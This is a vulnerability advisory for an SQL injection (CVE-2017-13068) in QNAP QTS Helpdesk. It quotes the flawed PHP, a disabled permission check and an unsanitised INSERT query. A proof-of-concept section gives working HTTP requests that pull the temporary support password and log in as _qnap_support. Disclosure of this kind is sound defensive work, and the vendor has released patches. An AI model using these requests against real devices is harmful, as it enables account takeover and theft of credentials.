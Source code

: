 ## Vulnerability Summary
The following advisory describes a SQL injection found in QTS Helpdesk versions 1.1.12 and earlier.

QNAP helpdesk: “Starting from QTS 4.2.2 you can use the built-in Helpdesk app to directly submit help requests to QNAP from your NAS. To do so, ensure your NAS can reach the Internet, open Helpdesk from the App Center, and create a new Help Request. Helpdesk will automatically collect and attach NAS system information and system logs to your request, and you can provide other information such as the steps necessary to reproduce the error, the error message and screenshots so we can identify the problem faster.”

## Credit
An independent security researcher, Kacper Szurek, has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
QNAP has released patches to address this vulnerability.

For more information: https://www.qnap.com/en/security-advisory/nas-201709-29

CVE: CVE-2017-13068

## Vulnerability details
In order to trigger the vulnerability, a user needs to have Remote Support option enabled.

User controlled input is not sufficiently sanitized, by sending a CLI request to www/App/Controllers/Cli/SupportUtils.php an attacker can trigger an SQL injection and receive the password of the _qnap_support user.

Code which is responsible for checking permissions is commented:


```
// if (strtolower(php_sapi_name()) !== 'cli') {
//  $this->fileLogModel->logError('You can not use this function via web.', __FILE__);
//  die('You can not use this function via web. File: ' . __FILE__);
// }
```

We can access registerExternalLog which executes setExternalLog

```
public function registerExternalLog($appName, $appLogPath)
{
 $supportUtils = $this->model('SupportUtilsModel');

if (file_exists($appLogPath) && is_dir($appLogPath)) {
 printf("\r\n[%s] You should assign a log file, not folder.\r\n", colorize($appName, 'ERROR'));
} else if (file_exists($appLogPath) && !is_dir($appLogPath)) {
 if ($supportUtils->setExternalLog($appName, $appLogPath)) {
  printf("\r\n[%s] Log path %s was registered.\r\n", colorize($appName, 'SUCCESS'), colorize($appLogPath, 'SUCCESS'));
 } else {
  printf("\r\n[%s] Register external log failed.\r\n", colorize($appName, 'ERROR'), colorize($appLogPath, 'ERROR'));
 }
 } else {
 printf("\r\n[%s] Log file not found.\r\n", colorize($appName, 'ERROR'));
}
}
```

We can see the SQL injection in $appName in www/App/Models/SupportUtilsModel.php

```
public function setExternalLog($appName, $appLogPath)
{
 $now = time();
 $queryStr = "INSERT INTO external_log (appName, appLogPath, createdTime) VALUES ('$appName', '$appLogPath', '$now')";
 $rowCount = 0;

 try {
  $rowCount = $this->db->queryNoneResult($queryStr);
 } catch (\Exception $e) {
  return false;
 }

 return $rowCount;
}
```

## Proof of Concept
First we need to check if the remote support is enabled on victims machine. We can check by sending the following CLI request:

```
CLI /apps/qdesk/cli/supportutils/upload/a HTTP/1.1
Host: 192.168.1.55:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, sdch
Accept-Language: pl-PL,pl;q=0.8,en-US;q=0.6,en;q=0.4
Connection: close
```

If its not enable “Remote session is not enabled” text will be displayed.

Now we can trigger the SQL Injection by sending the following request:

````
CLI /apps/qdesk/cli/supportutils/applog/reg/bb',(SELECT/*a*/cfgValue/*a*/FROM/*a*/configuration/*a*/WHERE/*a*/cfgKey='tempPw'),'149881968')/*/::/etc/passwd HTTP/1.1
Host: 192.168.1.55:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, sdch
Accept-Language: pl-PL,pl;q=0.8,en-US;q=0.6,en;q=0.4
Connection: close
````


The server will respond with

````
CLI /apps/qdesk/cli/supportutils/applog/list HTTP/1.1
Host: 192.168.1.55:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, sdch
Accept-Language: pl-PL,pl;q=0.8,en-US;q=0.6,en;q=0.4
Connection: close
````

And the output should look like:


````
| App Name | Log Path | Create Time |
| bb | BqGgseHn <-- this is password | 1974-10-02 01:52:48 |
`````

Now you can login as:
Login: _qnap_support
Password: Obtained from SQL Injection